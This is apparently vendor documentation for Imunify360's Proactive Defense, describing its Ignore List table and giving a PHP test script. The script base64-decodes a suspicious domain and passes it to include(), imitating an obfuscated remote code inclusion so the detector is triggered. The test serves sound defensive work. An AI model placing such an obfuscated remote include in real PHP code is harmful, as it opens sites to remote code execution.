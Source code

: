 ![](/images/proactivedefenseignorelist_zoom70.png)

The <span class="notranslate">_Ignore List_</span> table includes the following columns:

* <span class="notranslate">Add Date/Time</span> — displays the date and the exact time of adding a file. To view the exact time click the clock icon in the desired file line. To order the files from the last to the first or vice versa click the ▲ icon in the <span class="notranslate">Add Date/Time</span> column header.
* <span class="notranslate">Script Path</span> — displays the path to the script.
* <span class="notranslate">Rules to ignore</span> — displays the pattern to be ignored.
* <span class="notranslate">Actions</span> — allows to view details and perform actions on the file.

**How to test Proactive Defense**

1. Set <span class="notranslate">Proactive Defense</span> to <span class="notranslate">_Log only_</span> mode (requests will not be blocked) or to <span class="notranslate">_Kill mode_</span> to kill all requests.
2. Create a file with the following content:

<div class="notranslate">

``` PHP
<?php
/* Imunify360 Proactive Defence test script */

echo "<pre>";
echo "Step 1<br>";

// Decode string with domain: 37kddsserrt.xyz
$url=base64_decode("MzdrZGRzc2VycnQueHl6");

echo "Step 2<br>";
echo "</pre>";

// Try to access a malicious domain
include($url);
die();
?>
```
</div>
